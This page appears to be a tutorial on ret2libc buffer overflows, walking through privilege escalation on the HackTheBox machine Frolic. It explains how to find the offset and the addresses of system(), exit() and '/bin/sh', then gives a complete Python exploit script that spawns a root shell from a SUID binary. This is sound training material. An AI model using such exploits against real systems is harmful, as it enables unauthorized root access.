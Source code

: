 # Ret2Libc

Ret2Libc is a type of buffer overflow that would basically bypass a non-executable stack. This attack does not require any shellcode at all, but rather some specific addresses and hopping throughout the program. Ret2libc **bypasses DEP security features**.

Compared to the OSCP buffer overflow, where we simply use `jmp esp` to go to the top of the stack and then execute shellcode, this would control the EIP to jump to the library loaded whent the binary runs.

## How it Works

When we run a binary that uses functions from a library, these libraries are **loaded into the program's virtual space**. For example, the standard C library shared object located at `/lib/i386-linux-gnu/libc-*.so` is loaded for Linux, and it's the `ntdll.dll` file loaded for Windows.&#x20;

To gain RCE, we would need to find the `system()` function, which lives in the `libc` library. The EIP that we gain control of woulud then be used to _jump_ to this function by overflowing it with its return address. After moving to this function, we would need to **execute shell commands passed to this function**. For most cases, the command for RCE is `/bin/sh`.&#x20;

Basically, we would force a program to call `system("/bin/sh")` through manipulation of the EIP. Here's a visual representation of how it works:

<figure><img src="../.gitbook/assets/image (89) (2).png" alt=""><figcaption></figcaption></figure>

In general:

1. EIP has been overflown to have the address of `system()` in `libc`.
2. Right after, the address of `exit()` is included, which also is within `libc`. The reason we need this is because once `system()` returns, the program jumps to `exit()`, which would allow for the vulnerable program to exit and drop us in our shell.
3. Then, a pointer with the address of `/bin/sh` is present, which is the argument we are passing to the `system()` command.

So we need to find 3 things for this attack:

1. Address of `system()`
2. Address of `exit()`
3. Address of `/bin/sh`.

All of which can be found within libc. All of this is done through analyzing the `libc` file that is within a program, and some prior enumeration as to which library is being loaded needs to be done. The locating of the offset stays the same, using `pattern_create.rb` and `pattern_offset.rb` in most cases.

## Example

This is an example of a ret2libc attack from HTB Frolic, which contains this exploit as part of its privilege escalation.

Firstly, we would find a binary named `rop` that is left behind for us, and it has the SUID binary set, meaning that when we run it, we are running it as the `root` user. We can download a copy back to our machine for further testing (either using netcat or base64 to do so).

<figure><img src="../.gitbook/assets/image (39) (3).png" alt=""><figcaption></figcaption></figure>

### Enumeration and Offset

First, we need to use `checksec` on the binary to see what we can and cannot do:

<figure><img src="../.gitbook/assets/image (25) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Breaking down the output, we notice that ASLR is disabled, RELRO is partial (meaning we have some space for writing code) and most importantly, NX is enabled. The stack is non executable, meaning that shellcode cannot be injected here.

Then, we can run the binary and see what it does. I used `ltrace` to enumerate what library calls and functions are being used.

<figure><img src="../.gitbook/assets/image (95) (1) (2).png" alt=""><figcaption></figcaption></figure>

So first, we notice that the program takes **an unsanitised input from the user.** The 'Hello!' portion is user-supplied, and then it uses `strcpy`, which is a dangerous function vulnerable to BOF since it does not check for the length of input, and copes it to another place in memory.

So we now we know the vulnerable parameter is probably the `main()` function's `argv[1]` call. We can generate an offset using `pattern_create.rb` of length 100 first, and then run the program in `gdb` to see how it responds to our payload.

<figure><img src="../.gitbook/assets/image (27) (2) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can use `pattern_offset.rb` to find the offset.

<figure><img src="../.gitbook/assets/image (87) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Finding Addresses

Now, within the **Frolic machine**, we would need to find the libraries it has. It has to be the machine itself because we want the RCE to work there to give us a root shell. We can use `ldd` to find the **address of which the libc.so file is loaded**.

<figure><img src="../.gitbook/assets/image (1) (6) (1).png" alt=""><figcaption></figcaption></figure>

So this binary loads the `libc.so.6` file in virtual memory. The base address is at `0xb7e19000`, and all other addresses we find are **offsets**, meaning we have to **add the addresses together** to find the specific address it is loaded at.

I first found the `/bin/sh` address using `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"`

<figure><img src="../.gitbook/assets/image (6) (6) (1).png" alt=""><figcaption></figcaption></figure>

The offset is `0x0015ba0b`, and when added to the base address found earlier, we would get `0xb7f74a0b`. So `/bin/sh` is there.

Then, we need to find the `system()` function. I did so using `objdump` .&#x20;

<figure><img src="../.gitbook/assets/image (13) (2) (2).png" alt=""><figcaption></figcaption></figure>

Adding the offset, we would get `0xb7e53da0`. Lastly, we need `exit()` , which is found using the same manner.

<figure><img src="../.gitbook/assets/image (28) (2).png" alt=""><figcaption></figcaption></figure>

`0xb7e479d0` is where `exit()` lives.&#x20;

### Exploit

Now that we have found all of this, we just need to put it together. Here's my final exploit script, using python `struct` to do so. Note that there are more automated ways of exploiting this, using `pwntools` or using online websites to find the addresses directly through finding the specific Linux version the machine is using or exact `libc` file being used.

Here's the final script:

```python
#!/usr/bin/python2

import struct  
# addresses from Frolic / Kali if testing locally
system_address = struct.pack("<I", 0xb7e53da0)
exit_address = struct.pack("<I", 0xb7e479d0)
string_address = struct.pack("<I", 0xb7f74a0b)

# fill the buffer with junk:
buffer = "A" * 52

# place the arguments for the call to system() on the stack, following the order defined by the x86 calling convention:
buffer += system_address
buffer += exit_address
buffer += string_address

# finally feed the program with the malicious payload
print buffer
```

Now, we just need to feed the output from this script into `rop`. This would spawn a root shell for us and we can finish the machine.

<figure><img src="../.gitbook/assets/image (4) (6) (1).png" alt=""><figcaption></figcaption></figure>
